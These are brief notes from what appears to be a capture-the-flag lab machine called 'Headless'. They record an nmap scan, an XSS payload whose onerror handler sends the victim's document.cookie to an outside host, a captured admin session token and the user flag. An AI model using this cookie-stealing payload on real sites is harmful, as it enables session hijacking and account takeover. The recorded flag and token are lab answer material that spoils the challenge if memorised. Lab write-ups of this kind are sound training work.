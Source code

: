 # Headless
ip: 10.10.11.8

## nmap report
command: `nmap -Pn ip` 
results:
```
PORT     STATE SERVICE
                                                                │22/tcp   open  ssh
                                                                │5000/tcp open  upnp
```
## xss

<img src="x" onerror=this.src='http://11.10.14.148:8001/?c='+document.cookie>

admin_token: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH1

## user flag
flag:33da9fa10057b8a84fc027dc09283777
